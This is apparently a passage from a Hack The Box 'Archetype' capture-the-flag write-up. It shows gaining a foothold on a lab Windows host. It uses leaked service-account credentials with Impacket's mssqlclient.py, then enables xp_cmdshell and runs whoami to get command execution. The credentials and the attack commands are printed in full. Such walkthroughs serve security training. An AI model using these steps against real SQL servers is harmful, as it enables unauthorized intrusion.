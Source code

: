 ```shell 

    ……

</DTSConfiguration>

 

  -------------------------------------------------------------------------------------------------------------------------------
```
### &#9702; Foothold

Let's try connecting to the SQL Server using “mssqlclient.py” (from Impacket) using the credentials found in “**prod.dtsConfig**” for the local Windows user **ARCHETYPE\sql_svc** (pwd:**M3g4c0rp123** ):


``` shell
python3 /usr/share/doc/python3-impacket/examples/**mssqlclient.py** ARCHETYPE/sql\_svc@10.10.10.27 -windows-auth

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ARCHETYPE): Line 1: Changed database context to 'master'.
[*] INFO(ARCHETYPE): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232)
[!] Press help for extra shell commands

SQL>
```
We can use the IS_SRVROLEMEMBER function to reveal whether the current SQL user has sysadmin (highest level) privileges on the SQL Server. Luckily we do have sysadmin privileges and we can now enable xp_cmdshell and gain RCE (remote code execution) on the host. Let's attempt this, by inputting the commands below:

1.    EXEC sp_configure 'Show Advanced Options', 1;

2.    reconfigure;

3.    EXEC sp_configure 'xp_cmdshell', 1

4.    reconfigure;

5.    xp_cmdshell "whoami"


``` script
SQL>EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;
....
SQL> EXEC sp_configure 'xp_cmdshell', 1
[*] INFO(ARCHETYPE): Line 185: Configuration option 'xp_cmdshell' changed from 1 to 1. Run the RECONFIGURE statement to install.
SQL> reconfigure;
SQL> xp_cmdshell "whoami"
output                                                                       
-------------------------------------------------------------------------------- 
archetype\sql_svc
                                                              
NULL

```

